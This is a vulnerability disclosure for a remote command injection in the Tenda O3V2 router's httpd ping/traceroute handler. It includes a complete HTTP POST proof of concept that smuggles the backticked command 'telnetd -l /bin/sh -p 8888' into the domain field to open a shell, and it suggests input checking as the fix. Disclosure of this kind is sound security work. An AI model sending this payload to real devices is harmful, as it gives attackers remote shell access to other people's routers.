


# Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `fromNetToolGet` function, `domain` is directly passed by the attacker, so we can control the `domain` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `domain` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /goform/setPingInfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 104
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/index.html
Cookie: O3V2.0_user=admin

pingMode=tranceroute&action=&hop=1&domain=`telnetd -l /bin/sh -p 8888`&ip=&packetSize=&pro_ver=&timeout=
```


## Result

Get a shell!

<div  align="center"></div>
